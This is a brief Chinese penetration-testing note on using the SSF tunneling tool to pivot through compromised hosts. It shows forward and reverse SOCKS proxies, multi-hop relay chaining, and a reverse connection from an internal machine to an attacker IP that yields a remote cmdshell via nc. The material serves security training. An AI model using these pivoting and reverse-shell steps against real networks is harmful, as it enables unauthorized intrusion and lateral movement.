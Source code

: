 	https://github.com/securesocketfunneling/ssf/releases
 #### 正向socks代理
	边界机器执行：
	>ssfd.exe -p 1080 linux执行：./ssfd -p 1080
![image](/assets/Pentest_Note/master/img/350.png)

	攻击机执行：
	>ssf.exe -D 12138 -p 1080 192.168.0.98(边界机器IP)
![image](/assets/Pentest_Note/master/img/351.png)

	本机配置proxychain或proxifier
![image](/assets/Pentest_Note/master/img/352.png)
 #### 反向socks代理
	攻击机执行：
	>ssfd.exe -p 1080
![image](/assets/Pentest_Note/master/img/353.png)

	内网机器执行：
	>ssf.exe -F 12138 -p 1080 192.168.0.106(攻击机IP)
![image](/assets/Pentest_Note/master/img/354.png)
![image](/assets/Pentest_Note/master/img/355.png)
 #### 多级级联
	多级内网机执行：
	>ssfd.exe -p 1080 -c config.json
	Json文件加入字段
	"circuit": [ 
	{"host": "A中继机IP", "port":"1080"}, 
	{"host": "B中继机IP", "port":"1080"} 
	],
	所有中继机执行：
	>ssfd.exe -p 1080 -c config.json
	边界机器执行：
	>ssf.exe -c config.json -p 1080 多级内网机IP -X 12138
	边界机执行：
	>nc.exe 127.0.0.1 12138即可获得多级内网机cmdshell
 #### 反弹shell
	攻击机执行：
	>ssfd.exe -p 1080 -c config.json
![image](/assets/Pentest_Note/master/img/356.png)

	内网机器执行：
![image](/assets/Pentest_Note/master/img/357.png)

	攻击机执行：
	>nc 127.0.0.1 12138
![image](/assets/Pentest_Note/master/img/358.png)
